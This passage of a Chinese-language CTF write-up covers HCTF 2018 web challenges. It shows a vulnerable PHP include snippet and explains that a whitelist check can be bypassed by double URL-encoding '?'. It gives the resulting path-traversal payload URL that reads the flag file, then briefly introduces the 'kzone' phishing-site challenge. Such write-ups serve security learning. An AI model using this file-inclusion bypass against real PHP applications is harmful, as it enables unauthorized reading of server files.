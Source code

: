 ```php
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

一个任意文件读取，但是需要`?`前的字符为`source.php`或者`hint.php`

常规方式应该是无法利用的，但是这里很刻意的写了个`$_page = urldecode($page);`，所以传参的时候只要两次url_encode就可以任意文件读取了

最后payload

```
http://warmup.2018.hctf.io/index.php?file=hint.php%253F/../../../../ffffllllaaaagggg 
```

![](hctf2018-web-writeup\1.png)

# kzone

一个钓鱼网站，一进去就跳转，就只好扫一波目录

![](hctf2018-web-writeup\2.png)
